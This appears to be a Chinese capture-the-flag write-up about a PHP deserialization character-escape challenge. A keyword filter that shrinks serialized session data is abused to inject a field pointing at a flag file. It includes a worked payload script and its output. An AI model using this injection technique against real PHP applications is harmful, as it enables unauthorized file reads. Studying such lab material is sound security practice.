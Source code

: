 ```php
base64_encode(d0g3_f1ag.php)='ZDBnM19mMWFnLnBocA=='
";s:20:"ZDBnM19mMWFnLnBocA==";}
```

观察序列化字符串

```php
<?php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';//过滤后字符减少3或者4
    return preg_replace($filter,'',$img);
}

$_SESSION["user"] = 'flag';
$_SESSION["function"] = '";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = 'Z3Vlc3RfaW1nLnBuZw==';//不可控变量，固定值base64_encode('guest_img.png')
    
echo  "过滤前:",serialize($_SESSION),"\n";

$serialize_info = filter(serialize($_SESSION));

echo "过滤后:",$serialize_info,"\n";

?>
    
>>
过滤前:
a:3:{s:4:"user";s:4:"flag";s:8:"function";
s:41:"";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";
s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
过滤后:
a:3:{s:4:"user";s:4:"";s:8:"function";s:41:"";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}

	需要计算过滤处到目标子串的长度：";s:8:"function";s:41:" 长度为23，不为3或4的倍数，最接近的是24，所以在
目标子串头添加任意一个字符变成a";s:20:"ZDBnM19mMWFnLnBocA==";}
	所以过滤后会吃掉24个字符，所以可以选择4*6或者3*8
```

payload:

```php
<?php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';//过滤后字符减少
    return preg_replace($filter,'',$img);
}

$_SESSION["user"]='flagflagflagflagflagflag';//过滤后向后吃24个字符，或者php*8
$_SESSION["function"]='a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"khaz";s:4:"haha";}';
$_SESSION['img'] = 'Z3Vlc3RfaW1nLnBuZw==';//不可控变量，固定值


echo  "过滤前:",serialize($_SESSION),"\n";

$serialize_info = filter(serialize($_SESSION));

echo "过滤后:",$serialize_info,"\n";

var_dump(unserialize($serialize_info));
?>
>>

```